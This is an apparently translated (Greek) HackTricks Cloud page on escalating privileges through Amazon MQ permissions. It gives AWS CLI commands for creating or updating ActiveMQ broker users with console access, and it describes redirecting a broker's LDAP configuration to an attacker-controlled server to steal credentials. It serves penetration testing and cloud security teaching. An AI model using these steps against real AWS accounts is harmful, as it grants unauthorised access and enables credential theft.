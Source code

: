 # AWS - MQ Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

Για περισσότερες πληροφορίες σχετικά με το MQ, ελέγξτε:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Με αυτές τις άδειες μπορείτε να **δημιουργήσετε έναν νέο χρήστη σε έναν broker ActimeMQ** (αυτό δεν λειτουργεί σε RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες πληροφορίες μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Με αυτές τις άδειες μπορείτε να **δημιουργήσετε έναν νέο χρήστη σε έναν ActimeMQ broker** (αυτό δεν λειτουργεί στο RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες πληροφορίες μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Εάν ένας broker χρησιμοποιεί **LDAP** για εξουσιοδότηση με το **ActiveMQ**. Είναι δυνατόν να **αλλάξει** την **διαμόρφωση** του διακομιστή LDAP που χρησιμοποιείται σε **έναν που ελέγχεται από τον επιτιθέμενο**. Με αυτόν τον τρόπο, ο επιτιθέμενος θα είναι σε θέση να **κλέψει όλα τα διαπιστευτήρια που αποστέλλονται μέσω του LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Αν μπορούσατε με κάποιο τρόπο να βρείτε τα αρχικά διαπιστευτήρια που χρησιμοποιήθηκαν από το ActiveMQ, θα μπορούσατε να εκτελέσετε μια MitM, να κλέψετε τα διαπιστευτήρια, να τα χρησιμοποιήσετε στον αρχικό διακομιστή και να στείλετε την απάντηση (ίσως απλά επαναχρησιμοποιώντας τα κλεμμένα διαπιστευτήρια να μπορούσατε να το κάνετε αυτό).

**Πιθανές Επιπτώσεις:** Κλοπή διαπιστευτηρίων ActiveMQ

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
